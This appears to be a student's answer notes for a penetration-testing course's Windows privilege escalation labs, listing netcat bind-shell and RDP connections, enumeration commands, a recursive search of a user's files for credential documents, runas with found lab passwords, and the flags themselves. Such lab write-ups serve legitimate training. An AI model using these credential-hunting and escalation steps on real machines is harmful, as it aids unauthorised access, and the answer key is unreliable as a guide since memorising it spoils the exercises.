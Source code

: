 # Comands to execute  to get flags for labs

### Chapter 16 - Windows Privilege Escalation

**==== 16.1.2 ====**

Q1) Check the users of the local group Remote Management Users on CLIENTWK220 (VM #1). Enter a user which is in this group apart from steve.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-LocalGroupMember "Remote Management Users"` and the flag should be the username `daveadmin`

Q2) Enumerate the installed applications on CLIENTWK220 (VM #1) and find the flag.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output

Q3) We'll now use an additional machine, CLIENTWK221 (VM #2), to practice what we learned in this section. Access the machine via RDP as user mac with the password IAmTheGOATSysAdmin!. Identify another member of the local Administrators group apart from offsec and Administrator.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command `Get-LocalGroupMember "Administrators"` and the flag should be the username `roy`

Q4) Enumerate the currently running processes on CLIENTWK221 (VM #2). Find a non-standard process and locate the flag in the directory of the corresponding binary file.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to find the proccess name `Get-Process`
  - once the name is identified use this comand to find the binary `Get-Process <proccess name> | Select-Object Path`
  - go to the directory where the exe is and `type flag.txt`

**16.1.3**    
Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - start powershell
  - use this command ro run powershell as the admin `runas /user:backupadmin powershell` with the password `admin123admin123!`
  - type `type C:\Users\backupadmin\desktop\flag.txt`

Q2) Log into the system CLIENTWK220 (VM #1) via RDP as user steve. Search the file system to find login credentials for a web page for the user steve and enter the password as answer to this exercise.
  - flag is `thisIsWhatYouAreLookingFor`
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output
  - use this command to find txt file`Get-ChildItem -Path C:\Users\steve\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
  - type it out

Q3)Connect to CLIENTWK221 (VM #2) via RDP as user mac with the password IAmTheGOATSysAdmin! and locate sensitive information on the system to elevate your privileges. Once found, use the credentials to access the system as this user and find the flag on the Desktop.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to runas another user `run-as /user:richmond powerhshell` and when prompted enter password `GothicLifeStyle1337!`
  - once loged in the flag is on the desktop `type C:\Users\richmond\Desktop\flag.txt`

